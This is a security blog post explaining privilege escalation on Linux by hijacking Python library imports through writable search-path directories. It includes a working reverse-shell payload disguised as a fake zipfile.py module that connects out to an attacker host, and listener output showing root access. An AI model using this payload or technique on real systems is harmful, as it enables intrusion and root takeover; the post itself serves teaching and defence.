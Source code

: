 ```yaml
---
layout: single
title: Privilege Escalation via Python Library Hijacking
date: 2017-09-11
categories:
  - security
  - websec
tags:
  - python
  - privilege escalation
  - privesc
  - library hijack
---
```

Whilst debugging a Python script today, I found that I was unable to execute it, with the stack trace pointing back to the import of the requests library.

```
Traceback (most recent call last):
  File "enum.py", line 1, in <module>
    import requests
  File "/usr/local/lib/python2.7/dist-packages/requests/__init__.py", line 84, in <module>
    from urllib3.contrib import pyopenssl
  File "/usr/local/lib/python2.7/dist-packages/urllib3/contrib/pyopenssl.py", line 46, in <module>
    import OpenSSL.SSL
  File "/usr/lib/python2.7/dist-packages/OpenSSL/__init__.py", line 8, in <module>
    from OpenSSL import rand, crypto, SSL
  File "/usr/lib/python2.7/dist-packages/OpenSSL/rand.py", line 11, in <module>
    from OpenSSL._util import (
  File "/usr/lib/python2.7/dist-packages/OpenSSL/_util.py", line 6, in <module>
    from cryptography.hazmat.bindings.openssl.binding import Binding
  File "/usr/local/lib/python2.7/dist-packages/cryptography/hazmat/bindings/openssl/binding.py", line 13, in <module>
    from cryptography.exceptions import InternalError
  File "/usr/local/lib/python2.7/dist-packages/cryptography/exceptions.py", line 7, in <module>
    from enum import Enum
  File "/home/rastating/enum.py", line 3, in <module>
    requests.get()
AttributeError: 'module' object has no attribute 'get'
```

After a bit of following through, I found that as the script was named `enum.py`, it was taking precedence over a module named `enum` that the requests library was relying on / trying to import; thus creating a circular reference.

Further digging into this, revealed that Python has a list of search paths for its libraries; meaning there is an opportunity for privilege escalation depending on mis-configurations of the system and how it's users are using it.

The paths that come configured out of the box on Ubuntu 16.04, in order of priority, are:

* Directory of the script being executed
* /usr/lib/python2.7
* /usr/lib/python2.7/plat-x86_64-linux-gnu
* /usr/lib/python2.7/lib-tk
* /usr/lib/python2.7/lib-old
* /usr/lib/python2.7/lib-dynload
* /usr/local/lib/python2.7/dist-packages
* /usr/lib/python2.7/dist-packages

For other distributions, run the command below to get an ordered list of directories:

```bash
python -c 'import sys; print "\n".join(sys.path)'
```

If any of these search paths are world writable, it will impose a risk of privilege escalation, as placing a file in one of these directories with a name that matches the requested library will load that file, assuming it's the first occurrence.

For example, if we have a script that imports the `requests` library, and the `requests` library is stored in `/usr/local/lib/python2.7/dist-packages`. If we create a new file named `requests.py` and place it in any of the six directories that appear in the list above prior to `/usr/local/lib/python2.7/dist-packages`, it would result in the successful hi-jacking of that library.

Realistically speaking, the chances of the default search paths being writable are slim, unless someone with root privileges took some horrible shortcuts (not completely unimaginable).

The more likely scenario, is that someone will place a frequently accessed script in a directory that is world writable and remove write access on the file from all other users.

This may seem OK on the face of it - but due to how Python is searching for libraries, this would open it up for a user to inject their own arbitrary Python code into the application.

For example, let's say we have a web server, where `/var/www` is owned by `www-data` (not an unheard of configuration), which contains a `root` owned backup script, which is executed every *N* minutes by a cron job:

```shell_session
$ whoami
www-data

$ ls -la .
total 16
drwxr-xr-x  3 www-data www-data 4096 Sep 11 23:44 .
drwxr-xr-x 15 root     root     4096 Sep 11 23:40 ..
-rw-r--r--  1 root     root      353 Sep 11 23:44 backup.py
drwxr-xr-x  2 www-data www-data 4096 Sep 11 23:42 html

$ cat backup.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

As can be seen in the output above, `backup.py` cannot be altered by the low privilege account, `www-data`. However, as it is importing libraries (the `os` and `zipfile` libraries to be specific), we can gain privilege escalation by hi-jacking one of these libraries.

If we wanted to gain remote access, we could create a new file, as `www-data` in the same directory as `backup.py`, named `zipfile.py`, with the following content:

```python
import os
import pty
import socket

lhost = "10.2.0.3"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```

Within this file, we have the code to gain a reverse shell (taken from [python-pty-shells](https://github.com/infodox/python-pty-shells/)), but also an additional dummy class and constant, to make the file compatible with the program that is calling it.

By adding the dummy class and constant, we ensure that no errors will be logged and that the calling program exits cleanly.

The next time the cron job runs, `backup.py` will load our version of the `zipfile` library, due to it appearing first in the search paths (as the current directory **always** comes first), and subsequently execute our payload with elevated privileges:

```shell_session
root@kali:~# ncat -v -l -p 4444
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 0F4F BD69 EB85 CB0A 0663 CEDB 8A12 4110 CEDD 7412
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.2.0.1.
Ncat: Connection from 10.2.0.1:52898.
root:/var/www# ls -la .
ls -la .
total 24
drwxr-xr-x  3 www-data www-data 4096 Sep 12 00:26 .
drwxr-xr-x 15 root     root     4096 Sep 11 23:40 ..
-rw-r--r--  1 root     root      353 Sep 11 23:44 backup.py
drwxr-xr-x  2 www-data www-data 4096 Sep 11 23:42 html
-rw-r--r--  1 www-data www-data  434 Sep 12 00:26 zipfile.py
-rw-r--r--  1 root     root     1097 Sep 12 00:26 zipfile.pyc
root:/var/www# id
id
uid=0(root) gid=0(root) groups=0(root)
root:/var/www#
```
